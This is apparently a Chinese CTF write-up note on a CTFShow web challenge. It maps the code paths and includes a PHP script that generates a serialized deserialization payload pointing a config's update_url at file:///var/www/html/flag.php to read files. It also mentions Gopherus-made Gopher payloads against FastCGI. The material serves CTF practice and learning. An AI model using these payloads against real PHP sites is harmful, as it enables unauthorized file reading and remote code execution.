 tags:: CTF/伪协议, CTF/RCE

- Gopher 伪协议 [[CTF/伪协议]]打FastCGI
- # 反序列化
	- 和 [[CTF/WP/CTFShow/web308]]相同
	- if判断
	  id:: 62f26cf6-b9b3-4ba5-84e2-d33a5f32a1aa
		- 无
		  id:: 62f26d4c-0663-4721-bc9f-e2adce779080
	- checkVersion
	  id:: 62f26d07-e020-4ced-8d78-5e245c9a8a05
		- dao
		  id:: 62f26d50-b479-482a-b6a5-89c08030c427
			- fun: checkUpdate: ^^伪协议任意文件读取^^
			  id:: 62f26d5d-8540-4858-aa4e-9ae280c07115
	- addDpt
	  id:: 62f26d0d-3bc7-406a-a971-589573f91a09
		- service
		  id:: 62f26d98-d251-40e2-bc00-4bbcccdaf22a
			- insert_dbt
			  id:: 62f26da0-82b2-4613-a2e6-3166d7b66313
				- dao: 普通SQL，无法注入
				  id:: 62f26da5-2a83-4deb-b066-fb31e536bcc9
	- getAllDbt
	  id:: 62f26d1e-a3b3-451b-bfbe-5033b233f0b0
		- service
		  id:: 62f26db2-34c5-4c97-9a90-6ef81cdf928d
			- get_dpt_all
			  id:: 62f26dc5-059c-42c1-9bd3-fc5bddbd1ebd
				- dao: 普通SQL，无法注入
				  id:: 62f26dd1-3108-47b8-ba9a-4637ade9e12b
	- clearCache
	  id:: 62f26d28-5fce-4e10-8318-0f9191e92c26
		- service: 调用dao: clearCache
		  id:: 62f26d36-3b6c-4504-afbb-d2259dce463a
		- dao: shell_exec，但是只能有数字和换行
		  id:: 62f26e00-a110-4827-b830-8bb0308a9012
- 利用，和web308相同
- ```php
  <?php
  class dao{
  	private $config;
  	private $conn;
  	function set_config($config) {
  		$this -> config = $config;
  	}
  }
  
  class config{
  	private $mysql_username='root';
  	private $mysql_password='';
  	private $mysql_db='sds';
  	private $mysql_port=3306;
  	private $mysql_host='localhost';
  	public $cache_dir = 'cache';
  	public $update_url = 'file:///var/www/html/flag.php';
  }
  
  $c = new config();
  $d = new dao();
  $d -> set_config($c);
  echo urlencode(base64_encode(serialize($d)));
  ?>
  ```
-
- # Gopher打SSTI
- 用Gopherus生成Payload
- 需要一个存在的文件，填写`/var/www/html/index.php`
-
-